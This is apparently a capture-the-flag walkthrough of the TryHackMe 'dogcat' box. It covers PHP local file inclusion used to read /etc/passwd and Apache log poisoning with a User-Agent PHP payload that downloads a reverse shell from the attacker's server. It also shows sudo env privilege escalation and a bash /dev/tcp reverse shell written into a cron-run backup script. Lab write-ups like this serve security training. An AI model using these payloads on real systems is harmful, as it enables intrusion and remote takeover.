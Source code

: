 ```yaml
---
published: true
title: Dogcat - TryHackMe Walkthrough
category: Writeup
image: 'https://imgur.com/BarfSU7.png'
author: F3dai
---
```

I made this website for viewing cat and dog images with PHP. If you're feeling down, come look at some dogs/cats! This is a TryHackMe box. To access this you must sign up to [https://tryhackme.com/](https://tryhackme.com/).

**URL:** [dogcat](https://www.tryhackme.com/room/dogcat)

**Difficulty:** Medium

**Author:** jammy

### Enumeration

We are given the IP 10.10.0.15. Run an nmap scan with the following command:

<pre>nmap -p- -A -o portscan 10.10.0.15</pre>

These are the open ports:

<pre>PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
</pre>

The usual ports are open - ssh and http.

I'll open up port 80 on my browser:

![port 80](https://imgur.com/P78vvmt.png)

This website has a basic function to display either a dog or a cat depending on the button the user clicks. I'd like to investigate how these images are displayed on the website.

The url changes from ?view=cat to ?view=dog. I removed the ?view= and appended .php and this was the result: 

<pre>http://10.10.0.15/dog.php</pre>

![dog.php](https://imgur.com/kw2VGiH.png)

I try testing some random inputs out and I get an error message:

![error](https://imgur.com/klKhov0.png)

Therefore, it's safe to say that ?view= runs an "include" on the parameter for dog and cat, and **appends .php**. 

Since the input needs "dog" or "cat", I will try using the following url to see if I can view the /etc/passwd file on the system:

<pre>http://10.10.0.15/?view=dog../../../../../etc/passwd</pre>

But the following results show it is still trying to append the .php:

![error php](https://imgur.com/klKhov0.png)

<pre>include(dog../../../../../etc/passwd.php): failed to open stream"</pre>

I am not very familiar with php so I researched if there was a way to include a file without the file extension. The trick is to add "&ext=" at the end of the url. This is the new URL which should also view the /etc/passwd file with no .php file extension:

<pre>10.10.0.15/?view=dog../../../../../etc/passwd&ext=</pre>

![etc passwd](https://imgur.com/PDm0jrF.png)

You can view the page source to find the formatted text:

<pre>!root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin</pre>

Now that we can successfully execute a [local file inclusion](https://owasp.org/www-community/vulnerabilities/PHP_File_Inclusion) vulnerability, we can try to get a reverse shell by **log poisoning**. I have done this on a CTF challenge recently and found this article very useful:

[Log Poisoning](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/)

For more information on Log poisoning, here is an OWASP article:

[OWASP Log Poisoning](https://owasp.org/www-community/attacks/Log_Injection)

Let's try and open the access.log file using this LFI vulnerability.

<pre>http://10.10.0.15/?view=dog../../../../../var/log/apache2/access.log&ext=</pre>

This screenshot shows the page source, you can see the log shows some of the times the dog or cat has been requested:

![log](https://imgur.com/wENytd2.png)

We need to intercept the data to add our own code in the access log. Use burp suite to capture the request:

![burp](https://imgur.com/HhCALR2.png)

The above request was intercepted. The User-Agent field will need to be changed to our php code so it can download our own file. 

Let's firstly create a php reverse shell on our local machine so we can include this file. Kali Linux has a set of pre-made reverse shells. Copy the php reverse shell file to the current directory:

<pre>cp /usr/share/webshells/php/php-reverse-shell.php .</pre>

Change the host and port information in the file:

![edit](https://imgur.com/2Xa0MWp.png)

Now create a simple HTTP server with the following command:

<pre>python -m SimpleHTTPServer 9090</pre>

This will allow us to transfer the file to the victim. 

![http](https://imgur.com/J8rbwd3.png)

Now we can add the following command to our intercepted HTTP request using the php reverse shell we just created:

<pre>&lt;?php file_put_contents('shell.php', file_get_contents('http://192.168.145.4:9090/php-reverse-shell.php'))?&gt;</pre>

<?php file_put_contents('shell.php', file_get_contents('http://192.168.145.4:9090/php-reverse-shell.php'))?>

![burp request modified](https://imgur.com/wYiso6h.png)

For reference, this was the request I was forwarding on burp suite:

<pre>GET /?view=dog../../../../../var/log/apache2/access.log&ext= HTTP/1.1
Host: 10.10.235.173
User-Agent: <?php file_put_contents('shell.php', file_get_contents('http://10.9.6.63:9090/php-reverse-shell.php'))?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1</pre>

Once this was done, I had a confirmation of a download from the simple HTTP server:

<pre>10.10.235.173 - - [06/Jun/2020 08:15:48] "GET /php-reverse-shell.php HTTP/1.0" 200 -</pre>

When you forward this request, the php code will create a file called "shell.php" which, when visited, will create a connection on port 4444. Let's set up a netcat listener on port 4444:

<pre>netcat -nvlp 4444</pre>

Go to /shell.php or whatever you named the file in php code:

![rev shell](https://imgur.com/WRVfreG.png)

We are logged in as www-data.

## Privilege Escalation

Check the sudo rights:

<pre>sudo -l</pre>

![rights](https://imgur.com/EveIViV.png)

Great, there is a very easy way to exploit the /env.

I find this article very useful when trying to exploit sudo rights:

[https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/](https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/)

<pre>sudo env /bin/bash</pre>

We have root shell. One of the flags is in the /root directory:

![flag](https://imgur.com/vnUkWG6.png)

Another flag is in the /var/www directory:

![flag](https://imgur.com/TQRFtSI.png)

And finally, the other flag is in the actual web directory:

![flag](https://imgur.com/9OaDcef.png)

These flags are presented in reverse order - I usually just aim to own the system, it's better practice to record the flags at each step.

## Last flag

Finally, there is still one more flag - I checked the /opt/backups which had a script called backup.sh.

I added this command to the file:

<pre>echo "#!/bin/bash" > backup.sh;echo "bash -i >& /dev/tcp/10.9.6.63/5555 0>&1" >> backup.sh</pre>

I set up my netcat listener on 5555

<pre>netcat -nvlp 5555</pre>

Execute the script and get the reverse shell again.

<pre>./backup.sh</pre>

![rev shell](https://i.imgur.com/XEpsJPG.png)

And the final flag has been found:

![final](https://i.imgur.com/YB68YRa.png)
